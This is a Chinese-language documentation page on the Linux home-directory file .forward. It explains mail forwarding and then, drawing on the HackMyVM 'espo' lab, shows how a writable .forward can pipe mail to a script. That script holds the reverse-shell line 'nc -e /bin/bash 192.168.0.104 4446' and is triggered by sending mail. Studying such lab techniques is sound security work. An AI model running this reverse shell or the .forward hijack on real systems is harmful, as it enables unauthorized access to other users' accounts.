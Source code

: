 ```yaml
---
sidebar_position: 1
tags: [OS-Linux]
title: Linux 用户家目录
sidebar_label: Linux 用户家目录
description: 介绍Linux 用户家目录相关文件以及特殊文件夹
---
```

# Linux 用户家目录
## .forward
`.forward` 文件是用于电子邮件系统中的一个特殊文件。在 Unix/Linux 系统中，`.forward` 文件位于用户的主目录中，用于指定接收用户邮件的邮箱地址。当有邮件发送到用户的邮箱时，邮件系统会首先查找用户的 `.forward` 文件，如果存在的话，系统会将邮件转发到 `.forward` 文件中指定的邮箱地址。

`.forward` 文件**通常包含一个或多个邮箱地址**，每个地址一行。邮件系统会将邮件发送到这些地址中的每一个。

这个功能对于用户希望将邮件转发到其他邮箱或者集中管理邮件非常有用。例如，用户可以将自己的邮箱设置为 `.forward` 文件中，这样所有的邮件都会被转发到另一个邮箱，实现备份或集中管理的目的。

:::danger
在 `.forward` 文件中**通常包含一个或多个邮箱地址, 但是也可以可以使用一些特殊的设置，例如使用管道（pipe）将邮件传递给另一个命令或脚本处理**
:::

其文件内容大致有以下几种:

```bash
user@example.com
user2@example.com
```

使用管道将邮件传递给另一个命令或脚本处理

```bash
| /usr/bin/procmail
```

对于第二种方式存在一种漏洞利用的方法, 当可以在用户家目录中添加一个 `.forward` 文件时可以先其中写入, 其作用是将邮件传递给 `/dev/shm/pwn` 脚本来进行处理 (可以查看 HackMyVM/espo 来实操)

```bash
(remote) www-data@espo:/home/mandie$ cat .forward 
|/dev/shm/pwn
```

之后编写 `/dev/shm/pwn` 文件内容, 先其中添加一些内容

```bash
(remote) www-data@espo:/home/mandie$ cat /dev/shm/pwn 
#!/bin/bash
nc -e /bin/bash 192.168.0.104 4446
(remote) www-data@espo:/home/mandie$ ls -al /dev/shm/pwn
-rwxrwxrwx 1 www-data www-data 47 Apr 16 14:25 /dev/shm/pwn
```

随后先指定用户发送电子邮件触发命令来执行

```bash
(remote) www-data@espo:/home/mandie$ echo pwned | mail -s lol mandie
```

![](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240416202843.png)